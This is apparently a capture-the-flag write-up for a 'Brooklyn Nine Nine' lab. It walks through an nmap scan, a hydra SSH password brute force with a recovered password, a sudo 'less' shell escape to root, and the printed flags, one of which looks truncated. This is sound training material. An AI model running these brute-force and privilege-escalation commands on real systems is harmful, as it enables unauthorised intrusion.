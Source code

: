 # Brooklyn Nine Nine

### #1 User flag

Run a nmap scan to see how many ports is open.
```
nmap -sV <ip>
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Seach ftp to see if there is anything good there
```
note_to_jake.txt
```

Jake has a bad password so we bruteforce jake
```
hydra -l jake -P rockyou.txt ssh://<ip>
[22][ssh] host: 10.10.10.91   login: jake   password: 987654321
```

Log in and check folders for files
```
cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

### #2 Root flag

List user's privileges
```
sudo -l
sudo less /etc/profile 
!/bin/sh 
```
Finish off with cating out the root flag
```
cat /root/root.txt  
3a9f0ea7bb98050796b649e85481845
```
